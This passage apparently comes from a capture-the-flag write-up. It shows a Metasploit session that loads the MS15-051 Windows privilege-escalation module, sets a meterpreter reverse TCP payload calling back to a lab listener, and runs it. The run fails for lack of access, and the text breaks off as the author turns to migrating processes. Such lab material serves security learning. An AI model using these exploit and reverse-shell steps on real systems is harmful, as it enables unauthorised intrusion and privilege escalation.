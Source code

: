    #  Name                                              Disclosure Date  Rank    Check  Description
   -  ----                                              ---------------  ----    -----  -----------
   0  exploit/windows/local/ms15_051_client_copy_image  2015-05-12       normal  Yes    Windows ClientCopyImage Win32k Exploit


Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/local/ms15_051_client_copy_image

[msf](Jobs:0 Agents:1) >> use 0
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
[msf](Jobs:0 Agents:1) exploit(windows/local/ms15_051_client_copy_image) >> show options

Module options (exploit/windows/local/ms15_051_client_copy_image):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.0.79     yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows x86



View the full module info with the info, or info -d command.

[msf](Jobs:0 Agents:1) exploit(windows/local/ms15_051_client_copy_image) >> set LHOST tun0
LHOST => 10.10.14.16
[msf](Jobs:0 Agents:1) exploit(windows/local/ms15_051_client_copy_image) >> set SESSION 1
SESSION => 1

msf](Jobs:0 Agents:1) exploit(windows/local/ms15_051_client_copy_image) >> exploit

[*] Started reverse TCP handler on 10.10.14.16:4444 
[-] Exploit failed: Rex::Post::Meterpreter::RequestError stdapi_sys_config_getsid: Operation failed: Access is denied.
[*] Exploit completed, but no session was created.

</code></pre>

Exploit is not working and after watching the IppSec walkthrough video, it is because we do not have enough privilege. The exploit is working but we do not have access.

The solution to this is to then migrate to another service:
